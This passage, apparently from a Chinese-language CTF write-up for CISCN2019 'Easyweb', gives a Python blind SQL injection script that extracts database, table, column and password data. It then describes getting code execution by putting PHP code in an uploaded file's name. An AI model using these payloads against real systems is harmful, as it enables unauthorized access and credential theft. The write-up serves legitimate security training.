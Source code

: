 ```python
# -*- coding = utf-8 -*-
# @Time : 2023/1/15 11:46
# @Author : Leekos
# @File : [CISCN2019 总决赛 Day2 Web1]Easyweb.py
# @Software : PyCharm
import time

import requests

url = "http://b6aeffe5-d882-4699-9232-d735cd759ecd.node4.buuoj.cn:81//image.php?id=\\0&path="
# payload = " or ascii(substr((select database()),{},1))>{} %23"
# database: ciscnfinal
# payload = " or ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{} %23"
# table: images,users
payload = " or ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{},1))>{} %23"

# payload = " or ascii(substr((select password from users),{},1))>{} %23"

result = ""
for i in range(50):
    low = 32
    high = 127
    mid = (low + high) >> 1
    while high > low:
        u = url + payload.format(i, mid)
        res = requests.get(url=u)
        if "JFIF" in res.text:
            low = mid + 1
        else:
            high = mid
        mid = (high + low) >> 1
        # time.sleep(0.1)
    result += chr(mid)
    print(result)
```

最终使用脚本查询到 username、password。登录进去，发现是一个文件上传，

经过尝试，我们可以上传后缀 `.phtml` 文件

<img src="https://s2.loli.net/2023/01/15/QZWY5RBeanKJiOS.png" alt="image-20230115153705304" style="zoom:33%;" />

我们发现，上传了 `phtml` 文件后，在 php 文件中回显出来了上传成功的文件日志信息，包括了文件名。

我们仔细想一下，只要我们将文件名改为php代码，即可实现目录执行，于是：

<img src="https://s2.loli.net/2023/01/15/WP5jRLiAD7YmdbV.png" alt="image-20230115153920183" style="zoom:50%;" />

然后命令执行获得flag

